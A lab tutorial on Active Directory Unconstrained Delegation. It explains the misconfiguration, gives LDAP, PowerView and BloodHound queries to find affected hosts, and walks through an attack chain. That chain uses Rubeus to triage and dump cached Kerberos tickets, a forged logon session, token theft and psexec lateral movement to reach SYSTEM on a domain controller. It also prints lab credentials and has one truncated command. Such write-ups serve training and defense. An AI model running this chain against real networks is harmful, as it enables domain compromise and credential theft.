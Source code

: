 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - UnConstrained Delegation
date: 2025-10-29 01:02:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [UnConstrained-Delegation]     # TAG names should always be lowercase
image : /assets/images/unconbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

In Active Directory, **delegation** is a feature that allows a service to impersonate users and access resources on their behalf. While this is useful for applications that need to query multiple back-end services, misconfigurations can introduce serious security risks.

**Unconstrained Delegation** is the most dangerous type of delegation. When enabled on a computer or service account, that system can **impersonate any user** that authenticates to it—without restrictions. This is possible because whenever a user authenticates to a service configured with Unconstrained Delegation, their **TGT (Ticket Granting Ticket)** is stored in memory on that host. The host can then use the TGT to request service tickets to access other resources as that user.

From an attacker’s perspective, this means:

- If they compromise a machine with Unconstrained Delegation enabled, they can extract cached TGTs of privileged accounts.
- By forcing high-value accounts (like Domain Admins) to authenticate to that machine, attackers can obtain their TGTs and escalate privileges to Domain Admin.

Because of these risks, Unconstrained Delegation is rarely required in modern environments and is considered a **severe misconfiguration**. Best practices recommend using **Constrained Delegation** with Kerberos protocol transition (s4u2self/s4u2proxy) instead.

## UnConstrained Delegation happening why?

![alt text](../assets/images/kerberos25.png)

and if we wanna check computer of `APP-01` Properties and check for Delegation part

![alt text](../assets/images/kerberos26.png)

we can see its waiting for request ticket on kerberos!!! 

## UnConstrained Delegation detection

### UnConstrained Delegation detection with ADsearch.exe

We used that command before and it was pretty simple now we will use same one!!!

First of all lets check for computers

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

![alt text](../assets/images/kerberos27.png)

or same for users we just have to change `objectCategory=computer` → `objectCategory=user`

### UnConstrained Delegation detection with PowerView.py

We used that command before and it was pretty simple now we will use same one!!!

First of all lets connect powerview!!!! and connect as web host 🙂

```bash
powerview lab.local/'nicole.aurea:D4T!w/+aCxH-'@VALENOR-DC01.lab.local --dc-ip 192.168.1.10 --web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234
```

and run

```bash
Get-DomainComputer -Unconstrained
```

![alt text](../assets/images/kerberos28.png)

or with **WEB Interfaces** off course

![alt text](../assets/images/kerberos29.png)

### UnConstrained Delegation detection with Bloodhound

go cypher and run this

```bash
MATCH (c:Computer {unconstraineddelegation:true}) return c
```

![alt text](../assets/images/kerberos30.png)

## UnConstrained Delegation Attack

So we learnt how to verify and detect now i think we can attack!!!

First of all there is not too much attention for this part but yeah there is different approach a lot and i will show mines at least which is worked for me healthier.

### Understand what we are doing and with who?

```bash
findDelegation.py  lab.local/fay.lola:'liverpo
```

Make aim here just take where will to go right? Lets check first  

![alt text](../assets/images/kerberos31.png)

We just be sure and where we can go with who at this point. We did before but lets jsut verify.

So we need SYSTEM beacon for this computer lets take it.

![alt text](../assets/images/kerberos32.png)

So we have SYSTEM beacon on `TROY$` right? Now i will run `triage` command from `Rubeus` and its like When we go doctor first we got `triage` right? so we will check if we can do something and where we can go and where we can steal it.

```bash
execute-assembly /home/elliot/tools/Rubeus.exe triage
```

![alt text](../assets/images/kerberos33.png)

so we just learnt we can steal ticket for `cifs` and `ldap` and can access DC directly.

I will chose `cifs`  here and will run

```bash
execute-assembly /home/elliot/tools/Rubeus.exe dump /luid:0x3e7 /nowrap
```

But we have to understand what we got first!!!!!!!!!!!!!!

![alt text](../assets/images/kerberos34.png)

We will use them at next comamnd and let me show u how but before that we have to sure;

- **WE GOT TGS NOT TGT CAUSE WE HAVE DELEGATION TO COMPUTER NOT ADMINISTRATOR. SO WE HAVE TO DO TGS→ TGT FIRST**

```bash
execute-assembly /home/elliot/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:VALENOR-DC01 /username:Administratror /password:Pass1234 /ticket:<ticket_here>
```

so that could be our command!!!

![alt text](../assets/images/kerberos35.png)

we have to steal that token first

```bash
steal_token 1436
```

go target

```bash
cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
```

and JUMP

```bash
jump psexec64 VALENOR-DC01 valenor
```

![alt text](../assets/images/kerberos36.png)

and we got **SYSTEM** becon at DC.